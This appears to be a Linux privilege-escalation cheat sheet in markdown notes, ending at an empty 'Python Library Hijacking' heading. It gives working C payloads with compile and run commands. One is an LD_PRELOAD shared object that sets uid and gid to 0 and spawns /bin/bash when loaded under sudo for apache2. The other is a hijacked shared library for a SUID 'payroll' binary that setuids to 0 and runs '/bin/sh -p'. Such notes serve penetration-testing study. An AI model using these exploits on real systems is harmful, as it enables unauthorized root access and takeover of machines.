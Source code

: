 - Exploit:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

- Compile : 
```sh
gcc -fPIC -shared -o root.so root.c -nostartfiles
```

- Run:
```sh
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart #Apache no password root
```

**Shared Object Hijacking**
#Shared_Object_Hijacking

```sh
 readelf -d payroll  | grep PATH
 #payroll file with bit Suid
```

- Custom LIb : 
```sh
cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
ldd payroll
```

- Exploit : 
```c
#include<stdio.h>
#include<stdlib.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 
```

- Compile:
```sh
gcc src.c -fPIC -shared -o /development/libshared.so
```

 **Python Library Hijacking**
#Python_Hijacking
